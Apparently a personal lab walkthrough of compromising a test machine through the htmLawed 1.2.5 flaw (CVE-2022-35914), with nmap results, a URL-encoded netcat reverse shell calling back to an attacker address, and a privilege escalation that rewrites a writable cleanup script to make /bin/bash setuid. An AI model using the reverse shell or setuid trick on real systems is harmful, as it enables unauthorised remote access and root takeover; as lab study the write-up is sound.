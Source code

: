 ____

> [!info]
> IP=192.168.179.190


# Nmap

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: htmLawed (1.2.5) test
|_http-server-header: Apache/2.4.56 (Debian)
```


## 80 - http

- htmLawed (1.2.5) test

https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/

![[Pasted image 20240202104521.png]]

Change Post endpoint to /index.php

![[Pasted image 20240202104542.png]]


![[Pasted image 20240202104549.png]]

```bash
nc%20192.168.45.234%2080%20-e%20%2Fbin%2Fbash
```

![[Pasted image 20240202105117.png]]

# PrivEsc


![[Pasted image 20240202110251.png]]

```bash
-rwxr-xr-x 1 www-data www-data /var/www/cleanup.sh
```

```bash
#!/bin/bash

chmod 4777 /bin/bash
```






